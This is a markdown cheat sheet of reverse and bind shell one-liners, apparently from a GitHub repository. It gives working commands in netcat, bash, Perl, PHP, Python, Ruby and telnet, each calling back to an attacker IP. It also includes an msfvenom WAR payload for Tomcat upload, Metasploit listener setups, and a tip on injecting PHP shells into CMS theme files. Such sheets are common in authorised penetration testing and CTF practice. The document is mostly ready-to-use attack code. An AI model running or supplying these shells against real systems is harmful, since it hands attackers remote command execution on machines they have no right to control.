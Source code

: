 ### Reverse Shells
#### Listensers
```
nc -nlvp 1234
```
- Always set up a netcat listener before executing a bash reverse shell

- You can also use multi handler from metasploit to catch incoming reverse shells
```
msfconsole
use exploit /multi/handler
set LHOST 172.16.6.1
set LPORT 1234
run
```
#### Netcat Reverse Shell
```
nc 172.16.6.1 1234 -e /bin/sh
```
- Standard netcat reverse shell (only works with some versions of nc)

#### Bash Reverse Shells
```
bash -i >& /dev/tcp/172.16.6.1/1234 0>&1
```
- Basic bash reverse shell
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1 | nc 172.16.6.1 1234 >/tmp/f
```
- Another bash reverse shell

#### Perl Reverse Shell
```
perl -e 'use Socket;$i="172.16.6.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

#### PHP Reverse Shell
```
php -r '$sock=fsockopen("172.16.6.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```
- Standard PHP reverse shell typically used for injection on the terminal enviroment or into a web application
```
$sock=fsockopen("172.16.6.1", 1234);exec("/bin/sh -i <&3 >&3 2>&3");
```
- This php shell is used when you can inject php code into a theme file of a CMS (think wordpress)

#### Python Reverse Shell
```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("172.16.6.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
- Standard python reverse shell

#### Ruby Reverse Shell
```
ruby -rsocket -e 'exit if fork;c=TCPSocket.new("172.16.6.1","1234");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
```
- Linux ruby reverse shell
```
ruby -rsocket -e 'c=TCPSocket.new("172.16.6.1","1234");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
```
- Windows ruby reverse shell

#### War Reverse Shell
```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=172.16.6.1 LPORT=1234 -f war > /home/kali/Documents/shell.war
```
- This will generate a war file for upload on the Tomcat CMS. Once uploaded click on the shell option to activate it.
- Catch this shell with multi/handler
```
msfconsole
use exploit /multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST 172.16.6.1
set LPORT 1234
run
```

#### Reverse shell over the Telnet Protocol
```
mknod a p; telnet 172.16.6.1 1234 0<a | /bin/sh 1>a
```
- This reverse shell makes a special character file (mknod) uses telnet to call back and direct standard output to the character file via the binary /bin/sh

### Bind Shells
#### Netcat Bind Shell
```
nc -nlvp 1234 -e /bin/sh
```
- This is executed on the target box and waits for an incoming connection
```
nc [target box ip] 1234
```
- This is executed on your attack box to connect to the listener on the target




